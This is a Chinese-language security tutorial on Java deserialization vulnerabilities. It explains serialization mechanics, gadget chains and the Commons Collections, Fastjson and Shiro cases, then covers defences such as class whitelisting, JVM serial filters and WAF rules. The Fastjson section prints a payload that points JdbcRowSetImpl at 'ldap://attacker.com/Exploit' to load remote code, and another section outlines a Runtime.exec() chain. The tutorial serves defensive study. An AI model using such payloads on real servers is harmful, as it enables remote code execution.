

## 目录
1. [序列化与反序列化基础](#序列化与反序列化基础)
2. [Java序列化实现机制](#java序列化实现机制)
3. [反序列化漏洞原理与利用](#反序列化漏洞原理与利用)
4. [典型反序列化漏洞案例](#典型反序列化漏洞案例)
5. [防御与最佳实践](#防御与最佳实践)
6. [法律声明](#法律声明)

---

## 序列化与反序列化基础

### 定义与用途
- **序列化**：将内存中的对象转换为可存储或传输的格式（如二进制流、JSON、XML）。  
- **反序列化**：将序列化后的数据还原为内存中的对象。  

| **场景**             | **说明**                                                                 |
|----------------------|-------------------------------------------------------------------------|
| 网络传输对象          | 在RPC（远程过程调用）、RMI（远程方法调用）中传输对象实例                     |
| 持久化存储            | 将对象保存到文件或数据库（如Session存储）                                  |
| 分布式系统通信        | 微服务架构中跨服务传递复杂数据结构                                         |

### 对比其他语言
| **语言** | **序列化方式**              | **特点**                                  |
|----------|----------------------------|------------------------------------------|
| Java     | `ObjectOutputStream`       | 二进制格式，需实现`Serializable`接口       |
| PHP      | `serialize()`/`unserialize()` | 支持Magic方法（如`__wakeup()`）            |
| Python   | `pickle`模块               | 可序列化任意对象，存在安全风险              |

---

## Java序列化实现机制

### 核心类与接口
- **`Serializable`接口**：标记性接口，实现该接口的类允许序列化。  
- **`ObjectOutputStream`**：  
  ```java
  ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("data.obj"));
  oos.writeObject(obj);  // 序列化对象到文件
  ```
- **`ObjectInputStream`**：  
  ```java
  ObjectInputStream ois = new ObjectInputStream(new FileInputStream("data.obj"));
  Object obj = ois.readObject();  // 反序列化恢复对象
  ```

### 序列化协议格式
- **二进制结构**：包含类元数据、字段值、继承关系等信息。  
- **头部标识**：`AC ED 00 05`（Java序列化流的魔数）。  
- **自定义序列化**：通过重写`writeObject()`和`readObject()`方法控制序列化行为。  
  ```java
  private void writeObject(ObjectOutputStream out) throws IOException {
      out.defaultWriteObject();  // 默认序列化
      out.writeUTF(customField); // 自定义字段处理
  }
  ```

---

## 反序列化漏洞原理与利用

### 漏洞成因
1. **输入可控**：反序列化数据来源不可信（如HTTP请求参数、文件上传）。  
2. **危险方法调用**：反序列化过程中触发以下操作：  
   - 执行`readObject()`中的任意代码（如`Runtime.exec()`）。  
   - 调用链（Gadget Chain）利用第三方库的漏洞（如Apache Commons Collections）。  

### 攻击流程


### 关键利用类示例
| **类名**                     | **漏洞触发点**                              | **利用场景**             |
|------------------------------|--------------------------------------------|--------------------------|
| `AnnotationInvocationHandler`| 反序列化时触发动态代理逻辑                  | JDK原生类利用            |
| `BadAttributeValueExpException` | `toString()`方法触发`readObject()`        | JMX组件漏洞              |
| `TemplatesImpl`              | 加载字节码执行任意代码                      | Fastjson反序列化漏洞     |

---

## 典型反序列化漏洞案例

### 1. Apache Commons Collections
- **漏洞编号**：CVE-2015-7501  
- **影响版本**：3.2.1及以下  
- **利用链**：  
  ```java
  InvokerTransformer.transform() → ChainedTransformer.execute() → Runtime.getRuntime().exec()
  ```
- **修复**：升级至4.0+版本，移除危险Transformer类。

### 2. Fastjson反序列化漏洞
- **漏洞编号**：CVE-2022-25845  
- **利用条件**：开启`autoType`功能，存在危险类（如`JdbcRowSetImpl`）。  
- **Payload示例**：  
  ```json
  {
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"ldap://attacker.com/Exploit",
    "autoCommit":true
  }
  ```

### 3. Apache Shiro RememberMe
- **漏洞编号**：CVE-2016-4437  
- **原理**：Shiro使用AES加密的序列化Cookie，密钥硬编码导致反序列化攻击。  
- **利用工具**：`ysoserial`生成Payload。  

---

## 防御与最佳实践

### 代码层防护
1. **避免反序列化不可信数据**：使用JSON、Protobuf等安全格式替代。  
2. **白名单校验**：限制可反序列化的类。  
   ```java
   ObjectInputStream ois = new ObjectInputStream(input) {
       @Override
       protected Class<?> resolveClass(ObjectStreamClass desc) 
           throws IOException, ClassNotFoundException {
           if (!desc.getName().equals("SafeClass")) {
               throw new InvalidClassException("Unauthorized class");
           }
           return super.resolveClass(desc);
       }
   };
   ```
3. **升级依赖库**：及时修补已知漏洞的第三方库（如Commons Collections 4.0+）。

### 基础设施加固
- **WAF规则**：拦截包含`AC ED 00 05`等序列化魔数的请求。  
- **JVM参数**：禁用危险类加载。  
  ```bash
  -Djdk.serialFilter=!org.apache.commons.collections.*
  ```

---

## 法律声明
> **《中华人民共和国网络安全法》第二十七条**  
> 任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序、工具；明知他人从事危害网络安全的活动的，不得为其提供技术支持、广告推广、支付结算等帮助。  
> **本文档内容仅用于安全研究与防御技术学习，严禁用于非法用途！**
```